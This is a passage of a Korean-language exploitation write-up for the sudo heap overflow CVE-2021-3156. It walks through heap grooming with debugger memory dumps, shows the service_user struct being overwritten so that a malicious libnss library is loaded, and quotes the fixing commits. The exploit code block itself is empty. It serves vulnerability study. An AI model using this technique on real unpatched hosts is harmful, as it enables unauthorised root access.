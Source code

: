 ```c
```

이를 이용해 `service_user`가 할당되는 순간에 원하는 위치에 위치하도록 힙풍수를 맞춘다.

```diff
gef➤  tel 0x55b2eb3fbda0
0x000055b2eb3fbda0│+0x0000: 0x0000000000000000
0x000055b2eb3fbda8│+0x0008: 0x00000000000000f1
0x000055b2eb3fbdb0│+0x0010: 0x0000000000000000	 ← $rbp, $r8
0x000055b2eb3fbdb8│+0x0018: 0x0000000000000000
0x000055b2eb3fbdc0│+0x0020: "e-langpack/en@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbdc8│+0x0028: "ck/en@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbdd0│+0x0030: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbdd8│+0x0038: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbde0│+0x0040: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbde8│+0x0048: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

LC_*변수들이 사용되고 해제된 영역

```diff
gef➤  tel 0x55b2eb3fbda0
0x000055b2eb3fbda0│+0x0000: 0x0000000000000000
0x000055b2eb3fbda8│+0x0008: 0x00000000000000f1
0x000055b2eb3fbdb0│+0x0010: "YYYYYYYY"	 ← $r8
0x000055b2eb3fbdb8│+0x0018: 0x0000000000000000	 ← $rbp
0x000055b2eb3fbdc0│+0x0020: "e-langpack/en@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbdc8│+0x0028: "ck/en@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbdd0│+0x0030: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbdd8│+0x0038: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbde0│+0x0040: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x000055b2eb3fbde8│+0x0048: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

해제된 영역에 쓰기 시작.

```diff
gef➤  tel $rdi
0x000055b2eb3fc350│+0x0000: "XXXXXXXXXXXXXXXX"	 ← $rbx, $rdi
0x000055b2eb3fc358│+0x0008: "XXXXXXXX"
0x000055b2eb3fc360│+0x0010: 0x0000000000000000
0x000055b2eb3fc368│+0x0018: 0x5858585858585800
0x000055b2eb3fc370│+0x0020: 0x0000000000000000
0x000055b2eb3fc378│+0x0028: 0x000055b2eb403960  →  0x000055b2eb410710  →  0x00007f2884d239d7  →  "initgroups_dyn"	 ← $r14
0x000055b2eb3fc380│+0x0030: 0x0053005a00782f78 ("x/x"?)
```

`service_user`구조체까지 덮어썼으며 name변수를 `x/x`로 덮어썼다. 따라서 `libnss_x/x.so.2`라이브러리를 import 하게된다. 이 라이브러리에 실행할 코드를 넣으면 성공적인 트리거가 가능하다.

# Patch

```diff
commit 1f8638577d0c80a4ff864a2aad80a0d95488e9a8
Author: Todd C. Miller <Todd.Miller@sudo.ws>
Date:   Sat Jan 23 08:43:59 2021 -0700

    Fix potential buffer overflow when unescaping backslashes in user_args.
    Also, do not try to unescaping backslashes unless in run mode *and*
    we are running the command via a shell.
    Found by Qualys, this fixes CVE-2021-3156.

commit b301b46b79c6e2a76d530fa36d05992e74952ee8
Author: Todd C. Miller <Todd.Miller@sudo.ws>
Date:   Sat Jan 23 08:43:59 2021 -0700

```
